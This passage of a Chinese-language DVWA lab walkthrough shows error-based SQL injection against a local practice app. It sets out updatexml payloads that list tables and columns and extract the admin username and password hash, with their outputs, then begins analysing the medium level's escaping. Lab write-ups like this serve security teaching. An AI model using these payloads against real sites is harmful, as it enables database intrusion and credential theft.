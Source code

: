    

4. 获取指定数据库中的表

   ```sql
   http://127.0.0.1/vulnerabilities/sqli/?id=' and updatexml(1,concat('!',(
   select table_name from information_schema.tables where table_schema='dvwa' limit 1,1
   ),'!'),1) -- &Submit=Submit
   
   -- XPATH syntax error: '!guestbook!'
   -- XPATH syntax error: '!users!'
   ```

   

5. 获取指定库中指定表的字段

   ```sql
   http://127.0.0.1/vulnerabilities/sqli/?id=' and updatexml(1,concat('!',(
   select column_name from information_schema.columns where table_schema='dvwa' and table_name='users' limit 3,1
   ),'!'),1) -- &Submit=Submit
   
   --limit 3,1 > XPATH syntax error: '!user!'
   --limit 4,1 > XPATH syntax error: '!password!'

6. 获取指定库中指定表指定字段的值

   ```sql
   http://127.0.0.1/vulnerabilities/sqli/?id=' and updatexml(1,concat('!',(
   select user from dvwa.users limit 0,1
   ),'!'),1) -- &Submit=Submit
   
   -- XPATH syntax error: '!admin!'
   
   http://127.0.0.1/vulnerabilities/sqli/?id=' and updatexml(1,concat('',(
   select password from dvwa.users limit 0,1
   ),''),1) -- &Submit=Submit
   
   -- XPATH syntax error: 'f4dcc3b5aa765d61d8327deb882cf99'
   
   ```

   ![image-20221201122627366](https://xingqiu-tuchuang-1256524210.cos.ap-shanghai.myqcloud.com/1431/202301071441566.png)

   至此，攻击成功

### medium

中级难度改成了下拉选择框，这属于前端校验，还需要看看后端校验

![image-20221201142622701](https://xingqiu-tuchuang-1256524210.cos.ap-shanghai.myqcloud.com/1431/202301071441365.png)

**源码分析**

```php
$id = mysqli_real_escape_string($GLOBALS["___mysqli_ston"], $id);
```
